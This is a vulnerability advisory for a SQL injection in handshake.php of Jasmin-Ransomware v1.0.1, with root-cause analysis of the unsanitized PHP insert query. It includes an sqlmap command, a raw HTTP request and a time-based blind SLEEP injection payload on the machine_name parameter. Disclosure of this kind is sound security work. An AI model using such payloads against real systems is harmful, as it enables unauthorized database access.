 # SQLi vulnerability in Jasmin-Ransomware v1.0.1 of file /handshake.php with param machine_name

**vender**:

- Jasmin-Ransomware

**SoftLink**:

- [codesiddhant/Jasmin-Ransomware: Jasmin Ransomware is an advanced red team tool (WannaCry Clone) used for simulating real ransomware attacks. Jasmin helps security researchers to overcome the risk of external attacks.](https://github.com/codesiddhant/Jasmin-Ransomware)

**Vulnerable File**

- /handshake.php

**Version**

- V1.0.1

### Analyse

Vulnerability Overview

The `handshake.php` file contains a critical SQL injection vulnerability due to improper handling of user-supplied input in database queries.

Root Cause Analysis

1. **Direct Concatenation of User Input into SQL Query**

```php
$insert_user="insert into victims (machine_name,computer_user,os,date,time,ip,location,systemid,password) 
             VALUE ('$machine_name','$computer_user','$os','$date','$time','$ip','$location','$systemid','$password')";
```

All POST parameters (`$_POST['machine_name']`, `$_POST['computer_user']`, etc.) are directly embedded into the SQL statement without any validation, sanitization, or parameterization.

2. **Complete Lack of Input Validation**

The code fails to implement:
- Data type validation
- Input length restrictions
- Special character filtering
- SQL injection detection mechanisms
- Prepared statements with parameter binding

3. **Insecure Database Interaction**

While using `mysqli_query()`, the code doesn't utilize `mysqli_prepare()` with parameter binding, which is the recommended approach for preventing SQL injection.

### POC

```bash
sqlmap -r sqli.txt -p machine_name--technique T --batch
```



```http
POST /handshake.php HTTP/1.1
Host: 192.168.100.100
Content-Type: application/x-www-form-urlencoded
Content-Length: 156

handshake=jasmin@123&machine_name=test&computer_user=user&os=windows&date=2024-01-01&time=12:00:00&systemid=123&location=test&ip=127.0.0.1&password=pass
```



![image-20250830002416080](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508300024185.png)



```
Parameter: machine_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: handshake=jasmin@123&machine_name=test'+(SELECT 0x64524772 WHERE 3822=3822 AND (SELECT 8032 FROM (SELECT(SLEEP(5)))GkSd))+'&computer_user=user&os=windows&date=2024-01-01&time=12:00:00&systemid=123&location=test&ip=127.0.0.1&password=pass
---
```

